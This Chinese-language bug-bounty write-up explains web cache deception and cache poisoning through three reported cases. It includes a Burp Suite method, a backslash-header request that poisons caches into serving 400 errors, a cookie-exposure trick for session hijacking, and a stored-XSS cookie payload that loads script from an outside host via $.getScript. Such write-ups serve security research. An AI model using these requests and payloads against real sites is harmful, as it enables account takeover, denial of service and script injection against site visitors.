










声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。

[TOC]

## 前言
 本文以真实的案例来讲解如何发现cache相关的漏洞.

 
## 方法
>如果应用程序没有登录功能，但使用了Akamai CDN的服务，步骤如下:

发送第一个请求到Burp suite的`Repeater`:


检查服务器是否缓存正常的请求(你可以通过响应头`“server - timing: cdn-cache;desc=HIT”`来判断)



在请求中添加非法请求头 (注意:host下面一行的` \ `)



如果成功缓存了响应，那么当您在任何浏览器上打开URL时，应该会得到一个400 Bad Request,如下图所示:



>如果应用程序有登录功能:
 
- 创建一个帐户
- 检查一下在任何页面中是否有任何敏感信息被公开(例如会话或者令牌)



- 发送请求到`Repeater`
- 在URL的末尾添加一个能缓存的扩展名(`.js,.css`)，看看它是否给出了一个200 OK的响应 (注意看接口的末尾,多了`.js`,可以与第一张图进行对比)




使用经过验证的帐户打开修改后的URL



使用curl或Private Web Browser窗口打开相同的URL:



如果成功缓存了令牌，应该在响应中看到令牌




>如果应用程序使用Cloudflare CDN

非法请求头是行不通的，现在大多数Cloudflare客户都在使用缓存欺骗保护 (https://developers.cloudflare.com/cache/about/cache-deception-armor/)


我使用`.avif`文件能够绕过这个保护，这是一个真正未知的扩展名文件。

具体参考: `https://hackerone.com/reports/1391635`


也有一些网站没有使用这个保护，你可以尽情地测试缓存中毒/欺骗;


## 案例1.由缓存欺骗至账户接管→赏金:1500美元

### 思路
所有的cookie(甚至httponly)都在` https://host.com/app/conversation/1.js `中公开

如果一个经过身份验证的用户访问这个URL，他们所有的cookie都将存储在缓存中

然后攻击者就可以提取cookie并劫持他们的Session


>提示和技巧

在某些应用程序中，如果你在扩展之前添加一个分号(;)，可能会给你一个200 Ok的响应

比如:  `/xxxx/xxxxxx/;.js`

响应为:

```
HTTP/2 200 Ok

```


## 案例2:由缓存中毒提升至DoS→赏金:1000美元

### 思路

在Akamai CDN中，如果我们发送一个反斜杠`\ `作为报头，服务器将响应一个400坏请求响应

请求:

```
GET /products/xxx/xxxx/xxx/?test HTTP/2
Host: www.host.com
\: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
```

响应:

```
HTTP/2 400 Bad Request
Content-Type: text/html;charset=iso-8859-1
Content-Length: 70
Cache-Control: max-age=297
Expires: Thu, 21 Jul 2022 16:17:54 GMT
Date: Thu, 21 Jul 2022 16:12:57 GMT
Server-Timing: cdn-cache; desc=HIT
Server-Timing: edge; dur=32
Server-Timing: origin; dur=147
Strict-Transport-Security: max-age=86400
Ak-Uuid: 0.bc85d817.1658419977.1592c61

```
当站点使用缓存服务器时，这就会成为一个问题。网站通常只缓存javascript, css和其他文件，但当网站如`www.host.com`也缓存正常的响应，如

```
www.host.com/products/*

www.host.com/*

```
它会成为一个非常有影响力的bug。

- 提示和技巧


对于这个漏洞，Akamai有一个解决方案，通过让400响应在缓存中只持续5秒，然而，攻击者可以在burp中使用intruder模块发送null有效负载，这样相同的400响应就永远被缓存了





## 案例3:由缓存中毒到储存型XSS→赏金:1000美元

### 思路

有一个通过n_vis Cookie参数的XSS

由于服务器缓存了此响应，攻击者可以保存XSS有效负载

有一个强大的过滤器(和WAF)，可以阻止大多数有效负载，但由于该网站使用Jquery，攻击者可以使用`$.getScript`函数 。

请求:

```
GET /xxxx/xx-xx.otf?triagethiss HTTP/2
Host: www.host.com
Cookie: n_vis=xssx'*$.getScript`//593.xss.ht`//;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-xss,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers

```


响应:

```js

<script>
...
Visitor.id='xssx'*$.getScript`//593.xss.ht`//;
....
</script>


```

>提示和技巧

测试XSS上的任意请求头，`cookie`，自定义头，`x-forward-*`头


## 更多案例

